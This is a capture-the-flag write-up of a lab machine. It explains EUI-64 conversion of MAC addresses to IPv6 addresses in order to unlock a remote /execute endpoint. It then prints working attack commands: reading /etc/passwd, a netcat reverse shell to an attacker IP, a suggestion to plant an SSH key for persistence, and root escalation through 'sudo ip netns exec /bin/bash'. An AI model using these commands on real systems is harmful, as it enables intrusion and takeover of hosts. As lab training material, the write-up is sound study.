```bash
curl -o- http://[fd00:dead:beef::1]:8081
```

The response is a JSON object describing an API for an IPv6-themed CTF challenge. The service presents a challenge: convert a list of MAC addresses to IPv6 format using EUI-64, then validate them with a POST request.

```json
{
  "message": "IPv6 CTF API",
  "challenge": {
    "description": "Convert the following MAC addresses to IPv6 using EUI-64 format",
    "mac_addresses": [
      "00:11:22:33:44:55",
      "AA:BB:CC:DD:EE:FF",
      "12:34:56:78:9A:BC",
      "DE:AD:BE:EF:CA:FE",
      "01:23:45:67:89:AB"
    ],
    "total_macs": 5,
    "instructions": {
      "step1": "Convert each MAC address to IPv6 using EUI-64 format. Use the standard IPv6 link-local prefix",
      "step2": "Send a POST request to /validate with the following JSON structure:",
      "request_structure": {
        "mac_addresses": "Array of all MAC addresses from the challenge (in the same order)",
        "ipv6_addresses": "Array of corresponding IPv6 addresses (one for each MAC, in the same order)"
      },
      "example_request": {
        "mac_addresses": [
          "11:22:33:44:55:66",
          "FF:EE:DD:CC:BB:AA"
        ],
        "ipv6_addresses": [
          "fe80::1322:33ff:fe44:5566",
          "fe80::ffee:ddff:fecc:bbaa"
        ]
      },
      "requirements": [
        "You must send ALL MAC addresses from the challenge list above",
        "You must send the same number of IPv6 addresses as MAC addresses",
        "The order of MAC addresses and IPv6 addresses must match",
        "All conversions must be correct to proceed",
        "Use Content-Type: application/json header"
      ]
    }
  },
  "endpoints": {
    "/validate": {
      "method": "POST",
      "description": "Validate MAC addresses and convert to IPv6 (must validate ALL MACs)",
      "required_parameters": {
        "mac_addresses": "Array of MAC addresses (all from challenge)",
        "ipv6_addresses": "Array of corresponding IPv6 addresses in EUI-64 format"
      },
      "example": {
        "mac_addresses": [
          "11:22:33:44:55:66"
        ],
        "ipv6_addresses": [
          "fe80::1322:33ff:fe44:5566"
        ]
      }
    },
    "/execute": {
      "method": "POST",
      "description": "Execute command (requires ALL MACs to be validated first)",
      "required_parameters": {
        "command": "Command to execute"
      }
    },
    "/status": {
      "method": "GET",
      "description": "Check validation status"
    }
  }
```

The challenge structure breaks down as follows:

- **endpoints:** Available endpoints:
  - `/validate` (POST): Validates the challenge by submitting the addresses.
  - `/execute` (POST): Allows command execution (only after passing validation).
  - `/status` (GET): Checks validation status.

Here are the MAC addresses we need to convert to IPv6 using EUI-64 format:

```json
{
   "mac_addresses": [
      "00:11:22:33:44:55",
      "AA:BB:CC:DD:EE:FF",
      "12:34:56:78:9A:BC",
      "DE:AD:BE:EF:CA:FE",
      "01:23:45:67:89:AB"
   ],
}
```

You can check the `instructions` section in the JSON for exact steps, but let me walk through the process manually so we understand it better.

Let's take the MAC **00:11:22:33:44:55** as an example.

- **Step 1: Insert `FF:FE` in the middle (EUI-64 format).**
  Take the first three bytes and the last three, inserting `FF:FE` between them:

  > **00:11:22:FF:FE:33:44:55**
  >

- **Step 2: Flip the U/L bit in the first byte.**
  XOR the first byte with 02:

  Original first byte: `00`

  `00 XOR 02 = 02`

  Result:

  > **02:11:22:FF:FE:33:44:55**
  >

- **Step 3: Convert to IPv6 format by grouping into 4-digit hex blocks.**
  Group the resulting bytes:

  > **0211:22FF:FE33:4455**
  >

- **Step 4: Add the standard link-local prefix (`FE80::/64`).**
  Final conversion result:

  > **FE80::0211:22FF:FE33:4455**
  >

> **Note:** You can use ChatGPT, a script, or do this manually—the important thing is understanding the process rather than just copying answers.

Here's the solution for the validate endpoint:

```bash
curl -sS -X POST "http://[fd00:dead:beef::1]:8081/validate" \
  -H "Content-Type: application/json" \
  -d "{\"mac_addresses\":[\"00:11:22:33:44:55\",\"AA:BB:CC:DD:EE:FF\",\"12:34:56:78:9A:BC\",\"DE:AD:BE:EF:CA:FE\",\"01:23:45:67:89:AB\"],\"ipv6_addresses\":[\"fe80::211:22ff:fe33:4455\",\"fe80::a8bb:ccff:fedd:eeff\",\"fe80::1034:56ff:fe78:9abc\",\"fe80::dcad:beff:feef:cafe\",\"fe80::323:45ff:fe67:89ab\"]}"
```

```bash
# More readable version
curl -sS -X POST "http://[fd00:dead:beef::1]:8081/validate" \
  -H "Content-Type: application/json" \
  -d @- <<'JSON'
{
  "mac_addresses": [
    "00:11:22:33:44:55",
    "AA:BB:CC:DD:EE:FF",
    "12:34:56:78:9A:BC",
    "DE:AD:BE:EF:CA:FE",
    "01:23:45:67:89:AB"
  ],
  "ipv6_addresses": [
    "fe80::211:22ff:fe33:4455",
    "fe80::a8bb:ccff:fedd:eeff",
    "fe80::1034:56ff:fe78:9abc",
    "fe80::dcad:beff:feef:cafe",
    "fe80::323:45ff:fe67:89ab"
  ]
}
JSON
```

Once validation is accepted, we can execute commands on the host as the `lenam` user:

```bash
curl -sS -X POST "http://[fd00:dead:beef::1]:8081/execute" \
  -H "Content-Type: application/json" \
  -d "{\"command\":\"id\"}"
```

```bash
curl -sS -X POST "http://[fd00:dead:beef::1]:8081/execute" \
  -H "Content-Type: application/json" \
  -d "{\"command\":\"cat /etc/passwd\"}"
```

To get a reverse shell outside the container, first start a listener on your attacking machine:

```bash
nc -lvnp 5555
```

Then, from the backups container shell, launch the reverse shell (replace `192.168.1.123` with your attacking machine's IP):

```bash
curl -sS -X POST "http://[fd00:dead:beef::1]:8081/execute" \
  -H "Content-Type: application/json" \
  -d "{\"command\":\"nc 192.168.1.123 5555 -e /bin/bash\"}"
```

Once connected, we've escaped the container and gained access to the host machine.



Now we can read the user flag:

```bash
cat user.txt
```

## Privilege escalation to root

To improve our shell experience, consider enabling an interactive TTY or copying your SSH key to the compromised system for persistence and a better working environment.

Next, let's check our sudo privileges:

```bash
sudo -l
```



The `lenam` user can run the `ip` command as root without a password. Two scripts also appear in the allowed commands list (`block-web-host-access.sh` and `remove-web-host-block.sh`), though we can't read them. Based on their names, they're likely used to manage web host access.

To escalate to root, we'll exploit the `ip` binary permissions using a technique from GTFOBins:

```bash
sudo ip netns add mynetns
sudo ip netns exec mynetns /bin/bash
```

After running these commands, we have a root shell. Now let's grab the root flag:

```bash
cat /root/root.txt
```


> **Final note:**  
Thanks for reading this writeup! I hope you found it useful and learned something new about IPv6, EUI-64 format, or exploitation techniques in real-world scenarios.  
For more information, check out the [IPv6 documentation (RFC 4291)](https://datatracker.ietf.org/doc/html/rfc4291).  
See you next time!

